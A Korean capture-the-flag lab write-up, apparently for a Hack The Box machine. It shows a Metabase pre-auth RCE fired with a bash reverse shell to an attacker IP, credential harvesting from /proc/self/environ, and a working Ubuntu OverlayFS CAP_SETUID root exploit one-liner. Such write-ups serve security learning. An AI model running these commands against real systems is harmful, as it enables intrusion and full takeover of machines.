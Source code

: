 ### 초기 침투
### 사용한 취약점: metabase 원격 코드 실행, 우분투 커널 취약점(권한 상승)
- metabase 로그인 페이지를 찾음
  - metabase: 오픈 소스 business intelligence tool
  - 임의 코드 실행 취약점을 이용
### exploit
- 사용한 exploit code: https://github.com/m3m0o/metabase-pre-auth-rce-poc/blob/main/main.py
- python3 main.py -u http://[targeturl] -t [setup-token] -c "[command]" 다음과 같은 형태로 실행
  - exploit 하기 위해 data.analytics.htb/api/session/properties 에서 setup-token 값을 읽는다
    - 인증 없이도 액세스 가능한 경우가 많음
  - db 연결을 검증하는 setup-token과 함께 사용할 수 있는 api 엔드포인트를 찾음
  - h2 db 드라이버에서 sql 주입 취약점을 발견
  - db 유효성 검사 단계를 조작하여 임의의 코드 실행
<br></br>
- 해당 토큰과 url, exploit code를 실행하여 전달하고 reverse shell을 얻는다
- python3 main.py -u http://data.analytical.htb -t <토큰 값> -c "bash -i >& /dev/tcp/<ip값>/4444 0>&1"
- proc/self/environ 에서 meat user id와 meta password 값을 찾아 ssh로 접속을 시도 한다.
- user flag 값을 얻을 수 있다.

### 권한 상승
- sudo -l: 실행 안됨
- uname -a: 시스템 커널 과 하드웨어 정보를 확인하여 권한 상승할 정보를 찾는다
<br></br>

- 사용한 방법으로는 우분투 커널 취약점을 이용하여 권한 상승을 시도한다.
  - 사용한 exploit code
  - 해당 명령은 home 디렉터리나 상위 디렉터리에서 실행이 불가
  - 하위 폴더에서 실행해야 함
<br></br>
- 권한 상승 원리
  - overlayFS: 하나의 디렉터리 트리가 다른 디렉터리 트리 위에 겹쳐지는 통합 마운트 파일 시스템
    - 모든 수정 사항이 쓰기 가능한 상위 계층으로 이동, 하위 계층은 읽기 전용
  - 하위 파일을 상위 계층으로 이동하여 공격함
  - 즉 하위 디렉터리에 CAP_SETUID 같은 기능을 상위 계층으로 전달하여 실행하고 루트 권한을 얻는 원리
```
unshare -rm sh -c
"mkdir l u w m &&
cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;
mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" &&
u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'
```
  - unshare -rm sh: 새 사용자 네임스페이스 생성 후 새 파일 시스템 네임 스페이스를 마운트 함
  - mkdir l u w m: 각 이름의 디렉터리 생성
  - cp /u*/b*/p*3 l/: 각 패턴에 맞는 파일 복사
  - setcap cap_setuid+eip l/python3: l에 있는 python3 바이너리에 eip플래그와 함께 cap_setuid를 설정하여 권한을 상승시킴
  - mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m: overlay 파일 시스템을 overlay 파일시스템 타입을 이용하여 마운트 함
    - l은 lower layer, w는 work directory, m은 mount point, u는 upper layer로 지정\
  - touch m/*: m 디렉터리에 빈 폴더 생성
<br></br>
- u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")': 명령은 u에 있는 python3 디렉터리(overlay 파일시스템 상위 계층)에서 실행됨
  - root 권한으로 bash shell을 획득 함
- 권한을 얻고 /root/root.txt에 있는 플래그 값을 읽는다.

### 결론
- metabase 취약점
  - db 유효성 검증 단계에서 sql injection을 하여 reverse shell 획득
- 커널 취약점을 이용한 권한 상승
  - namespace 생성
  - namespace-root가 마운트 된 디렉터리에 overlayFS 생성
  - lower layer 파이썬 바이너리에 CAP_SETUID 설정
  - namespace-root가 상위 계층에 파이썬 바이너리를 push함
  - 상위 계층에서 파이썬을 실행하여 루트 권한을 획득
